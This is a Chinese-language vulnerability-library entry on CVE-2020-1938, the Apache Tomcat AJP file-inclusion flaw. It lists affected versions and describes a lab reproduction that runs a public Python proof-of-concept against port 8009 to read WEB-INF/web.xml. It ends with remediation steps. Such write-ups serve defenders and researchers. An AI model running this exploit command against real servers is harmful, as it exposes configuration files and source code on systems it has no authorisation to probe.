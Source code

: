 ```yaml
---
title: 'Apache-Tomcat-Ajp文件包含CVE-2020-1938'
date: Fri, 04 Sep 2020 05:14:43 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

Apache Tomcat 6 Apache Tomcat 7 < 7.0.100 Apache Tomcat 8 < 8.5.51 Apache Tomcat 9 < 9.0.31

### 漏洞简介

Apache Tomcat服务器存在文件包含漏洞，攻击者可利用该漏洞读取或包含 Tomcat 上所有 webapp 目录下的任意文件，如：webapp 配置文件或源代码等。

由于Tomcat默认开启的AJP服务（8009端口）存在一处文件包含缺陷，攻击者可构造恶意的请求包进行文件包含操作，进而读取受影响Tomcat服务器上的Web目录文件。

### 复现利用

搭建环境 克隆实验环境

```
git clone https://github.com/laolisafe/CVE-2020-1938
```

解压Apache

```
unzip apache-tomcat-8.5.32.zip
```

在Apache的bin目录下，添加执行权限，我这里给全部权限

```
chmod -R +x bin/
```

启动apache

```
sh startup.sh
```

查看端口，8009端口是开启的 ![](Apache-Tomcat-Ajp%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABCVE-2020-1938/tomcat.png)

利用漏洞 poc下载地址：[https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi) 注意poc为py2环境

```
python ./ CNVD-2020-10487-Tomcat-Ajp-lfi.py 本地ip –p 8009 –f WEB-INF/web.xml
```

![](Apache-Tomcat-Ajp%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABCVE-2020-1938/%E6%88%AA%E5%9B%BE20200220231832.png)

### 漏洞修复建议

1.临时禁用AJP协议端口，在conf/server.xml配置文件中注释掉

2、配置ajp配置中的secretRequired跟secret属性来限制认证

3、官方下载最新版下载地址： [https://tomcat.apache.org/download-70.cgi](https://tomcat.apache.org/download-70.cgi) [https://tomcat.apache.org/download-80.cgi](https://tomcat.apache.org/download-80.cgi) [https://tomcat.apache.org/download-90.cgi](https://tomcat.apache.org/download-90.cgi)